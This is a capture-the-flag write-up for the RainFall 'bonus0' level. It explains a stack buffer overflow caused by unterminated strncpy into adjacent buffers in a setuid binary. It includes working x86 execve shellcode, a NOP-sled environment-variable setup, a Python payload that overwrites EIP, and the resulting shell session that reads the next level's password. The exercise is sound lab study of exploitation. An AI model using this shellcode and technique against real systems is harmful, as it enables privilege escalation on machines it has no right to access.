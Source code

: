# Bonus0

## Solution

* There is one file in our home, ```bonus0```, belonging to ```bonus1``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the very long disassembled code, but we will describe its behaviour:

	* main function allocates on its stack a ```0x2a``` bytes buffer (that we will name ```final_buf```) and passes it to ```pp``` function
	* ```pp``` function allocates two ```0x14 = 20``` bytes buffers on its stack (```buf1``` and ```buf2```). It is important to note that ```buf2``` and ```buf1``` are contiguous
	* ```p``` function is called twice by ```pp```, with successively ```buf2``` and ```buf1``` as parameter
	* ```p``` reads on the stdin with a limit of ```0x1000 = 4096``` bytes
	* ```p``` uses ```strchr``` to find the first occurrence of ```\n``` and puts ```\0``` instead. This section is not protected, so we need to have a `\n` in the read data.
	* it then uses ```strncpy``` to copy the content of what has been read in the buffer passed in argument, with a limit of ```0x14``` chars
	* the content of ```buf2``` is then copied in ```final_buf```
	* a space is put in place of final ```\0``` and ```strcat``` is used to concatenate the string with the content of ```buf1```
	* ```main``` finally prints the final_buf

* What we did with all of that:

	* our goal was to use the ```final_buf``` to write an address of a shellcode in place of the former ```eip``` address
	* the offset between the beginning of ```final_buf``` and the location of former ```eip``` address is ```0x36 = 54``` bytes : it means that we wanted to write the address of our shellcode ```54``` bytes after the beginning of ```final_buf```
		* To get this offset we can use a neat tool from gdp-peda : `pattern`
		* First, create a pattern of the desired length, 19 here : ```pattern create 19``` we will get this nice string in return : `'AAA%AAsAABAA$AAnAAC'`.
		* Now lets run in gdb:
			* First read can receive only random characters (but more than 19)
			* For the second read we must paste our patter, and continue execution
		* Once the program has SegFault, we do `pattern search` and we see a match in `EIP` at `pattern offset 14`, we now now where to put the new `EIP`.
		* So, we have this layout :
			1. [20:                  1st read]
			2. [19                   2nd read]
			3. [1:                      space]
			4. [14: starting char of 2nd read]
			5. [4:                    New EIP]
	* in theory we could only write ```40``` bytes at the end as only ```20``` bytes are copied in respectively ```buf2``` and ```buf1``` after call to ```read```
	* but ```buf2``` and ```buf1``` are contiguous in memory and the content of call to ```read``` is copied with ```strncpy```: if there is no ```\0``` in the first ```20``` bytes, the copy won't be terminated
	* for instance, if ```buf1``` is not terminated, ```final_buf``` will be as follow: ```buf1+buf2 buf2```, that is to say potentially ```59``` bytes
	* we decided to store the shell code in an environment variable:
	```sh
	export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"`
	```
	* the we got the ```SHELLCODE``` variable approximative address thanks to ```env.c``` program (see in the ressources)
	```
	bonus0@RainFall:~$ gcc -fno-stack-protector -z execstack -o /var/crash/env /var/crash/env.c
	bonus0@RainFall:~$ /var/crash/env SHELLCODE
	SHELLCODE: 0xbffff4ce
	```
	* to be able to handle the two successive calls to ```read``` with only one file, we wrote first ```0x1000 = 4096``` bytes in a file (the size of the ```read``` buffer), followed by padding bytes and finally the approximative address of our shellcode:
	```sh
	python -c "print('A' * 4095 + '\n' + 'B' * 14 + 'def4ffbf'.decode('hex') + 'C' + '\n')" > /var/crash/bns0
	```
	* we can now exploit the vulnerability of ```bonus0``` file:
	```
	bonus0@RainFall:~$ cat /var/crash/bns0 - | ./bonus0
	-
	-
	AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBB����C BBBBBBBBBBBBBB����C
	cd ../bonus1; cat .pass
	cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
	```
